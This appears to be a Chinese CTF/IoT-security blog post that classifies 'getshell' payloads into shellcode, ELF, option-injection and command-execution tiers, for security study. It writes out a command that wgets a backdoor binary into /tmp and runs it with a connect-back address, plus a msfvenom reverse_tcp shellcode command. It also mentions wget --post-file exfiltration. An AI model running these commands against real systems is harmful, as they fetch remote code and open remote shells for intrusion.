 ```yaml
---
title: Getshell载荷：payload的量级
date: 2020-12-13 00:00:02
categories:
- CTF/Pwn
tags: 
---
```


> Getshell的背后就是代码执行，执行的是shell程序，并且此进程的输入输出可控。不过由于漏洞位置不同，输入点不同，达到Getshell目标的攻击载荷也不同。可以按照攻击载荷的量级来对payload进行分类，个人分为如下四类：shellcode，ELF，param，command。

|      | shellcode | ELF            | param                       | command           |
| ---- | --------- | -------------- | --------------------------- | ----------------- |
| 格式 | binary    | binary         | 字符串                      | 字符串            |
| 底座 | 内存破坏  | 可控ELF执行    | 某命令参数可控              | shell命令可控     |
| 进程 | 漏洞进程  | 被执行的新进程 | 漏洞程序进程/其启动的新进程 | shell启动的新进程 |

并且量级的payload间是存在包含关系，因为到最后是一定要建立远程连接和执行shell程序的：

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/payload.png)


在嵌入式攻防的情景中，命令执行的payload常是下载我们构造的后门ELF程序，然后执行，所以我们的payload其实包含了两部分：ELF, command。如下我们先要自己编译出这个rsc后门，然后命令执行：

```python
cmd  =  "cd /tmp &&"
cmd +=  "wget http://192.168.1.100:8000/rsc &&"
cmd +=  "chmod 777 ./rsc &&" 
cmd +=  "./rsc 192.168.1.100 8888"
```

最后如果不同意本文的量级划分，也可以参考msfvenom中的类型来划分payload：

```bash
➜  msfvenom --list formats
```

## 内存破坏: shellcode

> 具体参考：[IoT安全研究视角的交叉编译:shellcode](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)

总结shellcode一般有如下五种办法获得：

1. pwntools: asm(shellcraft.arm.linux.sh(),arch='arm')
2. msfvenom: msfvenom -p linux/armle/shell/reverse_tcp LHOST=192.168.1.100  LPORT=6666 -f py -o msf.py
3. shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
4. exploit-db: [https://www.exploit-db.com/shellcodes](https://www.exploit-db.com/shellcodes)
5. 自己编译：[StarCTF 2021 RISC-V Pwn Favourite Architecture: shellcode编写练习](https://xuanxuanblingbling.github.io/ctf/pwn/2021/01/22/riscv/)

其中pwntools和自己编译两种方法是的确要进行本地编译的，不过这里的交叉编译工具就只要符合该指令集即可，没有C库的限制，因为一般来说不需要libc。

## 后门程序: ELF

> 具体参考：[IoT安全研究视角的交叉编译:ELF](https://xuanxuanblingbling.github.io/ctf/tools/2021/02/16/cross/)

如果要产出一个ELF的话，一般来说是有以下3种方法：

1. 自己编译：需要对应架构的完整的交叉编译工具链
2. pwntools：需要对应架构的binutils
3. msfvenom：不需要交叉编译工具，shellcode是现成的

## 选项注入: param

> 即无法逃逸出某个命令本体，只能任意构造该命令的选项参数加以利用，在CTF的Web中可能更常见。例如：使用wget的`--post-file`参数带出数据、使用find的`-exec`参数命令执行等。

linux中各种命令可以利用的选项总结：[https://gtfobins.github.io/](https://gtfobins.github.io/)
，其他示例：

- [XCTF高校战疫 移动赛题GetFlag出题记录](https://xuanxuanblingbling.github.io/ctf/android/2020/03/16/getflag/)
- [命令注入新玩法：巧借环境渗透测试目标](https://www.freebuf.com/articles/web/194574.html)
- [Bitbucket服务器参数注入漏洞(CVE-2019-15000)](https://caiqiqi.github.io/2019/11/03/Bitbucket%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%8F%82%E6%95%B0%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E-CVE-2019-15000/)
- [bandit通关笔记:25-26](https://mp.weixin.qq.com/s/1pekcCj82qYT_YQcVkgcXw)

## 命令执行: command

> python、php等脚本程序执行算在这里，在Web情景中也可以称作代码注入。不过将此种情景算作选项注入也有道理，可看做解释程序固定，解释内容可控，内容就是解释程序的选项参数。如果可以任意的选择我用什么东西解释，python还是php等，这就得算命令执行了。怎么说都有理，理解即可。

- [Reverse Shell Cheat Sheet](https://github.com/flast101/reverse-shell-cheatsheet)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)
- [Linux OS 命令注入指北](https://www.tr0y.wang/2019/05/13/OS%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/)
- [巧用命令注入的N种方式](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)